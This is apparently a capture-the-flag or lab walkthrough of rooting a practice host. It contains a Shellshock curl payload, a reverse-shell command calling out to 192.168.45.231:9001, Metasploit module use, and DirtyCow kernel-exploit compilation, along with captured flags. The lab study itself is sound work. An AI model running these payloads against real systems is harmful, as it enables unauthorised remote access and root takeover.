 nmap
```php
nmap -sV -sC -p- -oN nmapinit.txt $IP
```

```php
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-05 07:21 BST
Nmap scan report for 192.168.247.87
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 06:cb:9e:a3:af:f0:10:48:c4:17:93:4a:2c:45:d9:48 (DSA)
|   2048 b7:c5:42:7b:ba:ae:9b:9b:71:90:e7:47:b4:a4:de:5a (RSA)
|_  256 fa:81:cd:00:2d:52:66:0b:70:fc:b8:40:fa:db:18:30 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.88 seconds
```

feroxbuster
```php
feroxbuster -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt  -u http://192.168.247.87/ -d 2 -C 404 
```

nikto
```php
nikto -h <url>
```
- reveals shellshock vulnerability

confirming shellshock
```php
curl -A "() { ignored; }; echo Content-Type: text/plain ; echo  ; echo ; /usr/bin/id" http://192.168.247.87/cgi-bin/test/test.cgi
```

![[img/Pasted image 20241005074659.png]]

rev-shell
```php
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/192.168.45.231/9001 0>&1' http://192.168.247.87/cgi-bin/test/test.cgi  
```

local.txt
```php
cat /usr/lib/cgi-bin/local.txt
```
- first flag is in the home directory of the web-shell
- `be53b8c1743c916a00cc3992bc390a09`

Metasploit

```php
msfconsole
search apache cgi 
use 8
set TARGETURI /cgi-bin/test
set RHOST
set LHOST tun0
```
- `exploit(multi/http/apache_mod_cgi_bash_env_exec)`

Linpeas has a high probability for the kernel exploit dirtycow: https://www.exploit-db.com/exploits/40839?source=post_page-----48b961a4c6ea--------------------------------

```php
upload /home/kali/Transfer/40839.c
```
- drop into a normal shell `shell`

```php
gcc -pthread 40839.c -o dirty -lcrypt
```

```php
./dirty 123
```

ssh into new user
```php
ssh firefart@192.168.247.87 
```
- enter new password `123`

cat /root/proof.txt
`6f7072176334be50fc70cb23eaafba81`

![[img/Pasted image 20241005090233.png]]

---

**Completed:** _08:58 2024-10-05_

